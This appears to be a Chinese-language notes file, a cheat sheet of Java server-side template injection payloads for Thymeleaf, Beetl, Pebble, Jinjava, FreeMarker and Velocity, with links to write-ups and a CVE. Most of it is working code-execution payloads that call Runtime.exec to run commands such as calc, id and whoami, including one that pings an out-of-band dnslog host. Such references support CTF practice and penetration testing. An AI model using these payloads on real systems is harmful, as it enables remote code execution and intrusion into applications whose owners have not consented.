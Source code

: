 # Java模板注入



大概看了一下，有这么几种模板

 - FreeMarker模板

   ```java
   <ul>
   <#list .data_model?keys as key>
   <li>${key}</li>
   </#list>
   </ul>
   ${.data_model.keySet()}
   ```

 - Thymeleaf模板

   ```java
   SpringEL: ${T(java.lang.Runtime).getRuntime().exec('calc')}
   OGNL: ${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}
   ```

 - jsp模板(el表达式)

 - Velocity模板

   ```java
   <ul>
   #foreach( $key in $context.keys )
   <li>$key = $context.get($key)</li>
   #end
   </ul>
   
   <ul>
   #foreach( $a in $request.getAttributeNames() )
   <li>$a</li>
   #end
   </ul>
   
   <ul>
   #foreach( $a in $request.getSession(true).getAttributeNames() )
   <li>$a</li>
   #end
   </ul>
   
   <ul>
   #foreach( $a in $request.getServletContext().getAttributeNames() )
   <li>$a</li>
   #end
   </ul>
   ```

 - beetl模板

   `byteCTF2021考过`

   ```
   http://ibeetl.com/beetlonline/
   https://landgrey.me/blog/17/
   JfinalCMS: https://xz.aliyun.com/t/8695
   ```

   ```${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"ping 029bzv.dnslog.cn")} ```

   bypass: https://ma4ter.cn/2682.html

   ```
   https://p1n93r.github.io/post/code_audit/jfinal_enjoy_template_engine%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/
   ```

 - Pebble模板

   https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/

   https://gingsguard.github.io/server-side-template-injection-on-the-example-of-pebble/

   Java 9+

   ```
   {% set cmd = 'id' %}
   {% set bytes = (1).TYPE
        .forName('java.lang.Runtime')
        .methods[6]
        .invoke(null,null)
        .exec(cmd)
        .inputStream
        .readAllBytes() %}
   {{ (1).TYPE
        .forName('java.lang.String')
        .constructors[0]
        .newInstance(([bytes]).toArray()) }}
   ```

   JDK8

   ```
   {% set out = (1).TYPE.forName('java.lang.Runtime').methods[6].invoke(null,null).exec("whoami").inputStream %}
   [{% for i in range(1,99) %}{% set byte = out.read() %}{{ byte }},{% endfor %}]
   ```

 - Jinjava

   `CVE-2020-12668`

   poc

   ```
   {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("")}}
   ```

   ```
   {{'a'.getClass().forName('java.lang.Runtime').methods[6].invoke(null).exec("calc")}}
   ```

   ```
   https://securitylab.github.com/advisories/GHSL-2020-072-hubspot_jinjava/
   ```

 - 在实际环境种获取classLoader的方法

   ```javascript
   ● java.lang.Class.getClassLoader()
   ● java.lang.Thread.getCurrentClassLoader()
   ● java.lang.ProtectionDomain.getClassLoader()
   ● javax.servlet.ServletContext.getClassLoader()
   ● org.osgi.framework.wiring.BundleWiring.getClassLoader()
   ● org.springframework.context.ApplicationContext.getClassLoader()
   ```

   

参考资料

> 1.(包括了大部分的模板注入)https://cloud.tencent.com/developer/article/1771497
>
> 